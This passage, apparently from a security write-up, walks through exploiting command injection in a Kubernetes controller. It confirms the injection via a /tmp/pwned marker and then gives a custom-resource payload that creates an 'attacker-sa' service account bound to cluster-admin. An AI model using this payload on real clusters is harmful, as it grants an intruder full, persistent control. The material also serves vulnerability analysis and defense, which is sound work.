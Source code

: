         ```bash
        kubectl exec -it <pod-name> -n <namespace> -- bash -c "ls -l /tmp/pwned"
        ```

        **Explanation:** Executes a command inside the controller's pod to check if the `/tmp/pwned` file exists. Replace `<pod-name>` and `<namespace>` with the actual values. This requires `exec` access to the pod.
        **Expected Output:**  If the command injection was successful, you will see information about the `/tmp/pwned` file (e.g., `-rw-r--r-- 1 root root 0 Oct 26 14:55 /tmp/pwned`).

    *If the controller runs as a Deployment (more likely):*

        ```bash
        kubectl get pods -n <namespace> -l app=<controller-app-name> -o wide
        ```

        **Explanation:**  Gets the pod name and node name where the controller deployment is running. Replace `<namespace>` and `<controller-app-name>` with the correct values. You'll need to determine the controller application name.
        **Expected Output:** Information about the pod. The "NODE" column indicates the node where the pod is running.

        ```bash
        kubectl exec -it <pod-name> -n <namespace> -- bash -c "ls -l /tmp/pwned"
        ```

        **Explanation:** Executes a command inside the controller's pod to check if the `/tmp/pwned` file exists. Replace `<pod-name>` and `<namespace>` with the actual values. This requires `exec` access to the pod.
        **Expected Output:**  If the command injection was successful, you will see information about the `/tmp/pwned` file (e.g., `-rw-r--r-- 1 root root 0 Oct 26 14:55 /tmp/pwned`).
    **Contribution:**  Verifies that the command injection was successful.

3.  **Escalate Privileges (if applicable):**

    If the controller runs with sufficient privileges, the attacker can use the command injection to escalate privileges.  For example, if the controller runs with cluster-admin privileges, the attacker could create a new service account with those privileges:

    ```bash
    cat <<EOF | kubectl apply -f -
    apiVersion: example.com/v1
    kind: ExampleCRD
    metadata:
      name: escalate
    spec:
      command: |
        kubectl create sa attacker-sa -n kube-system
        kubectl create clusterrolebinding attacker-sa-binding --clusterrole cluster-admin --serviceaccount=kube-system:attacker-sa
    EOF
    ```

    **Explanation:**  This command creates a service account named `attacker-sa` in the `kube-system` namespace and grants it cluster-admin privileges.
    **Expected Output:**  `examplecrd.example.com/escalate created`.
